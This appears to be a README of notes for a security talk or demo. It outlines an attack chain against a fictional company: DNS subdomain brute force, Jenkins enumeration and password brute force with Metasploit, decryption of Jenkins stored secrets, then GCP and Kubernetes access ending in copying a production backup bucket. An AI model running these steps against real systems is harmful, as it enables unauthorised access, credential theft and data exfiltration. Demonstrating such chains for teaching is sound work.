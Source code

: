 # Notes

## Agenda
1. [Getting To Know / DNS Recon](./02_gettingKnow.md)
2. [Jenkins Enum](./03_jenkinsEnum.md)
3. [Jenkins BruteForce](./04_jenkinsBruteforce.md)
4. [Jenkins Recon / Secret Decrypt](./05_jenkinsDecrypt.md)
6. [GCP Login / Lookaround](./06_cloudAccess.md)
7. [Kubernetes Lookaround](./07_kubernetesLookaround.md)
8. [Storage Exfiltrate](./08_storageExfiltrate.md)

## Some Notes IC-ME

### DNS Reconnaissance
```bash
dnsrecon -t brt -d nevervictimconsult.xyz --threads 25 -D /usr/share/wordlists/subdomains-top1million-5000.txt
```

### Jenkins BruteForce
```bash
[...]
use auxiliary/scanner/http/jenkins_enum
[...]
sed -n 14342050,14342075p /usr/share/wordlists/rockyou.txt > /root/demotalk/jenkinsBrute/passwordlist.txt
[...]
use auxiliary/scanner/http/jenkins_login
```

### Cloud Access
```java
println( hudson.util.Secret.decrypt("${ENCRYPTED_PASSPHRASE_OR_PASSWORD}") )
```

```bash
gcloud container clusters get-credentials --region=europe-west3 conduit-k8s-test
[...]
gcloud storage cp -r gs://conduit-database-backup-prod/ .
```
</details>